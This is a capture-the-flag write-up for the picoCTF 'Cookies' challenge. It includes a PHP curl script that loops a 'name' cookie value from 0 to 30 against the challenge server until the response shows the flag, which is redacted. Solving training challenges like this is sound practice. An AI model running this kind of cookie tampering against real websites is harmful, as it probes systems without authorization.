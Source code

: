 # Challenge: [Cookies](https://play.picoctf.org/practice/challenge/173)
40 Points
# Description 
Who doesn't love cookies? Try to figure out the best one.
# Solution
I use tool Burp Suite to view the response and cookie from my request. I know that the server has many cookies and I can modify them through param name.

<img src='./media/8340.png' alt='Cookie picture from Burp Suite' />

I try modifying value of name with positive values and have some different cookies. Therefore, I write a script to find the flag, this script have a loop from 0 to 30 (I also test name=30 and it does not give me a good result).
```php
<?php

$url = "http://mercury.picoctf.net:6418/check";

$curl = curl_init($url);
curl_setopt($curl, CURLOPT_URL, $url);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);

for($i=0; $i<=30; $i++){
	$headers = array("Cookie: name=$i",);
	curl_setopt($curl, CURLOPT_HTTPHEADER, $headers);

	$resp = curl_exec($curl);
	if(str_contains($resp, 'picoCTF{')){
		var_dump($resp);
	}
}


curl_close($curl);



?>


```
The flag is contained in the result when you excute it.
The flag is: picoCTF{***********}